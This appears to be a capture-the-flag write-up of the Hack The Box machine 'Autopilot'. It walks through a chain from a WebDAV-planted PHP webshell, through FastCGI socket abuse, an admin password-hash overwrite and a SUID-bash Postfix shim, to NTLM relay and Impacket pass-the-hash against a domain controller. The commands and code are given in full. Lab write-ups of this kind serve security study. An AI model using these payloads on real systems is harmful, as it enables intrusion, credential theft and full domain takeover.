

# [NOEMVEX FIELD NOTE] HTB: Autopilot — Advanced AD Architecture & Mail Infrastructure Assault

**Author:** Emre 'noemvex' Sahin  
**Classification:** Red Team Operational Report / Lab Assessment  
**Target Architecture:** Grommunio Enterprise Mail (Linux) + Hybrid Active Directory Infrastructure  
**Core Attack Vectors:** WebDAV ACL Abuse, PHP-FPM Socket Session Injection, Postfix Dynamic Daemon Hijacking, Dual-Path Active Directory Pivot (DnsAdmins NTLM Relay & Loopback Reverse SMB Splicing)

---

## Executive Summary & Tactical Overview

Autopilot presented a complex, highly realistic hybrid enterprise environment. The attack surface initially exposed an integrated Grommunio mail/collaboration suite operating on a hardened Linux instance. Initial foothold required exploiting WebDAV Access Control List (ACL) oversights within the Nextcloud/Grommunio Files framework, followed by abusing world-writable Unix domain sockets (`/run/php-fpm/php-gromox-fpm.sock`) to transition execution to the `gromox` service account.

Escalation to `root` on the Linux host was achieved via dynamic parameter tampering within the Grommunio Admin API (`:8080`), explicitly leveraging Postfix's `daemon_directory` configuration and bypassing systemd `PrivateTmp` namespaces. 

Post-exploitation spanned an internal dual-homed network architecture (`172.16.20.0/24`), requiring custom egress control mechanics (`iptables uid-owner` boundaries) and offering two distinct Domain Admin exploitation paths:
1. **Path A (DnsAdmins Control Loop):** Active Directory Integrated DNS (ADIDNS) record manipulation via custom binary record crafting (`dnsRecord` structure) forcing cross-subnet NTLM authentication to an SMB signing-disabled workstation.
2. **Path B (Kernel-Level Loopback Splice):** One-shot TCP socket splicing directly to `DC01:445` leveraging root context on the pivot node.

---

## Full-Chain Execution Evidence

The terminal capture below summarizes the four-stage workflow from initial access through privilege escalation and the Domain Controller stage. Redact all flag values before publishing this image publicly.



*Figure 1 — Full-chain workflow output.*

---

## 0x01 Reconnaissance & Protocol Telemetry

The external perimeter exposed only standard TLS/HTTPS services. Standard Nmap enumeration required strict hostname-to-IP mappings in `/etc/hosts`:

```text
grommunio.autopilot.htb mail.autopilot.htb autodiscover.autopilot.htb files.autopilot.htb

````

Bash

```
nmap -sC -sV -p 443 -pn autopilot.htb

```

### Critical Protocol Insight: TLS Date Clock Skew

During initial authentication handshakes with the Grommunio Web stack, JWT processing fails silently if the local operator clock deviates from the server's HTTP/TLS `Date` header.

- **Protocol Behavior:** Grommunio uses strict token validity windows. A clock skew exceeding the threshold invalidates CSRF/JWT tokens instantly.
- **Remediation/Sync:**

  Bash
  ```
  sudo date -s "$(curl -sI [https://grommunio.autopilot.htb](https://grommunio.autopilot.htb) | grep -i '^date:' | cut -d' ' -f2-)"

  ```

## 0x02 Initial Access: Cross-Tenant WebDAV ACL Exploitation

Grommunio Files relies on an underlying Nextcloud architecture where user files are mapped inside `/var/lib/grommunio-files/data/`.

While direct `PUT` requests against the administrative WebDAV endpoints returned `403 Forbidden`, the DAV implementation failed to properly enforce cross-tenant authorization checks when staging files into another user's storage path via standard mailbox credentials (`deborah.hernandez`).

### WebDAV Staging Payload

Bash

```
curl -sk -X PUT \
  '[https://grommunio.autopilot.htb/files/remote.php/dav/files/deborah.hernandez/s.php](https://grommunio.autopilot.htb/files/remote.php/dav/files/deborah.hernandez/s.php)' \
  -u 'deborah.hernandez:<REDACTED_PASS>' \
  -H 'Content-Type: application/octet-stream' \
  --data-binary '<?php echo shell_exec($_REQUEST["cmd"]); ?>'

```

Because the data storage directory resides directly within the web server's execution root, the staged PHP payload was directly executable via:

Plaintext

```
[https://grommunio.autopilot.htb/files/data/deborah.hernandez/files/s.php?cmd=id](https://grommunio.autopilot.htb/files/data/deborah.hernandez/files/s.php?cmd=id)

```

**Context Obtained:** `uid=462(grofiles) gid=462(grofiles)`

## 0x03 Lateral Movement (Local): PHP-FPM Socket Hijacking to `gromox`

The `grofiles` context was restricted, but local environment auditing revealed a world-writable Unix domain socket used by PHP-FPM:

Plaintext

```
/run/php-fpm/php-gromox-fpm.sock

```

By crafting a custom standalone FastCGI client, raw FastCGI binary frames were injected directly into the socket, bypassing HTTP web server restrictions and forcing execution under the `gromox` (UID 475) security context.

### Execution Vector & Credential Extraction

Executing a FastCGI request targeting `/tmp/run.php` yielded `gromox` privileges, exposing the MySQL adapter configuration:

Bash

```
# Executed via custom FCGI binary runner
cat /etc/gromox/mysql_adaptor.cfg

```

The config provided direct local credentials for the underlying MySQL instance (`grommunio` database).

## 0x04 Privilege Escalation: Postfix `daemon_directory` Injection & Admin API Manipulation

The Grommunio Admin API operates locally on IPv6 loopback (`http://[::1]:8080`). Authentication against the API uses SHA-512-crypt hashes stored in the MySQL `users` table.

### 1. Database Hash Rotation

To achieve API access without breaking system state, the `admin` password hash was temporarily rotated via direct SQL injection over the local socket:

Bash

```
# Hash generation: openssl passwd -6 '<NOEMVEX_TEMP_PASS>'
mysql -u grommunio -p'<MYSQL_PASS>' grommunio \
  -e "UPDATE users SET password = '<SHA512_CRYPT_HASH>' WHERE username = 'admin';"

```

### 2. Bypassing Systemd `PrivateTmp` Namespaces

The Postfix privilege escalation relies on modifying `daemon_directory` within Postfix's configuration to point to a controlled folder containing a malicious `postfix-script` binary.

However, PHP-FPM operates within a systemd mount namespace (`PrivateTmp=yes`). Standard `/tmp` locations on the filesystem are **not** visible to the system-wide Postfix service.

- **Path Discovery:** The absolute physical backing path of the web process's private mount was identified via `/proc/self/mountinfo`:

  Plaintext
  ```
  WEBDIR=/var/lib/grommunio-files/data/deborah.hernandez/files

  ```

### 3. Payload Staging & Service Trigger

A malicious shim `postfix-script` was staged in `WEBDIR`:

Bash

```
#!/bin/sh
# NOEMVEX Local Root Hook
chmod 4755 /usr/bin/bash
/usr/bin/sudoers_backup_or_custom_hook
exec /usr/lib/postfix/bin/postfix-script "$@"

```

Via the Admin API (`/api/v1/system/dbconf/`), two parameters were patched using the valid JWT/CSRF session:

1. `grommunio-dbconf/postfix/` -> `commit_file` set to `#POSTCONF` (`sudo postconf -e $FILE_S && systemctl reload postfix`).
2. `postfix/postfix/` -> `daemon_directory` set to `WEBDIR`.

Triggering a restart of `postfix.service` via POST `/api/v1/system/dashboard/services/postfix.service/restart` executed the shim as `root`.

## 0x05 Network Pivoting & Egress Control

The compromised Linux mail server acted as a multi-homed gateway into the internal Active Directory network (`172.16.20.0/24`).

### OPSEC & Traffic Isolation (`iptables` Boundary)

To prevent unintended network noise and limit non-privileged user accounts from generating suspicious outbound traffic, strict netfilter rules were applied:

Bash

```
# Restrict outbound connections to target workstation solely to root (ruid 0)
iptables -A OUTPUT -d 172.16.20.15/32 -m owner ! --uid-owner 0 -j DROP

```

A Chisel binary was placed in `/var/tmp` (bypassing `/usr` read-only overlay mounts) to establish a reverse SOCKS proxy (`1080`) and dynamic port forwards back to the attacker operator terminal.

## 0x06 Domain Compromise: Dual-Path Exploitation Mechanics

With full root control over `mail.autopilot.htb`, two distinct operational paths were available to reach Domain Administrator privileges on `DC01`.

```
                  ┌─────────────────────────────────────────────────────────┐
                  │                 KALI OPERATOR TERMINAL                  │
                  └────────────────────────────┬────────────────────────────┘
                                               │
                                      Encrypted Tunnel (Chisel)
                                               │
                                               ▼
┌────────────────────────────────────────────────────────────────────────────────────────┐
│ MAIL.AUTOPILOT.HTB (Pivot Node - Root)                                                 │
│                                                                                        │
│  [Path A: DnsAdmins Relay]                           [Path B: Direct Loopback Splice]  │
│  • ADIDNS 'ws01' Record Hijack                        • Raw TCP Socket Bridge          │
│  • Inbound NTLM -> ntlmrelayx (--smb-port 9445)       • Direct Impacket SMB Session    │
└──────────────────────┬───────────────────────────────────────────┬─────────────────────┘
                       │                                           │
                       ▼                                           ▼
┌──────────────────────────────────────────────┐ ┌───────────────────────────────────────┐
│ WS02.AUTOPILOT.HTB (172.16.20.15)            │ │ DC01.AUTOPILOT.HTB (172.16.20.1)      │
│ • SMB Signing: DISABLED                      │ │ • SMB Signing: REQUIRED               │
│ • Target of NTLM Relay -> Local Admin        │ │ • Target of Direct PTH / C$ Access    │
└──────────────────────────────────────────────┘ └───────────────────────────────────────┘

```

### Path A: DnsAdmins Record Spoofing & NTLM Relay Chain

1. **S/MIME Credential Extraction:** Decrypting Joshua's PKCS#12 archive using `openssl cms -decrypt` exposed credentials for `sa-joshua.harris`, a member of the **DnsAdmins** group.
2. **ADIDNS Binary Record Crafting:** Using `sa-joshua.harris`, the LDAP `dnsRecord` attribute for `ws01` was updated.
   - *Protocol Specifics:* The `dnsRecord` structure requires Little-Endian byte ordering for general structures, but **Big-Endian for the TTL field**.
3. **Firewall Modification:**

   Bash
   ```
   firewall-cmd --add-port=445/tcp --zone=public

   ```
4. **Relaying Authentication:** When the scheduled task executed on `ws01`, it resolved `ws01` to the mail server IP and attempted SMB authentication. `ntlmrelayx` forwarded the NTLM authentication to `WS02` (where SMB signing was disabled):

   Bash
   ```
   python3 ntlmrelayx.py -t smb://127.0.0.1:8445 --smb-port 9445 -smb2support -socks --socks-port 1082

   ```
5. **Pass-the-Hash:** Dumping local SAM database on `WS02` yielded Domain Admin credentials (`da-stephanie.lewis`).

### Path B: Loopback TCP Splicing (Direct Domain Controller Access)

Given full root execution on `mail.autopilot.htb`, an alternative, higher-efficiency vector was executed without awaiting scheduled task triggers:

1. **Kernel TCP Splice:** A Python-based TCP socket bridge was instantiated on `mail.autopilot.htb`, bridging incoming operator requests directly to `DC01:445`.
2. **Impacket Direct Auth:** Operator executed an authenticated SMB session directly through the spliced socket using recovered Domain Admin NT hashes:

   Python
   ```
   from impacket.smbconnection import SMBConnection

   dc = "127.0.0.1" # Local end of the TCP splice
   smb = SMBConnection(dc, dc, sess_port=445)
   smb.login("da-stephanie.lewis", "", "AUTOPILOT", nthash="<DA_NT_HASH>")

   # Direct extraction of flag asset
   contents = bytearray()
   smb.getFile("C$", r"Users\Administrator\Desktop\root.txt", contents.extend)
   print(contents.decode("utf-8"))

   ```

## 0x07 Post-Exploitation Remediation & Environmental Cleanup

To restore the lab environment to its baseline state and adhere to professional Red Team operational guidelines:

1. **Database Restoration:** Reverted the `admin` user password hash in Grommunio MySQL database to its original value.
2. **Postfix Configuration Rollback:** Re-patched `daemon_directory` back to `/usr/lib/postfix/bin` and removed custom `commit_file` macros from the API database.
3. **Artifact Removal:** Deleted custom webshells (`s.php`), FastCGI binaries (`/tmp/fcgi_client.py`), and Chisel binaries from `/var/tmp`.
4. **Firewall & Netfilter Reset:** Flushed custom `iptables` output owner rules and re-locked port 445 on `firewalld`.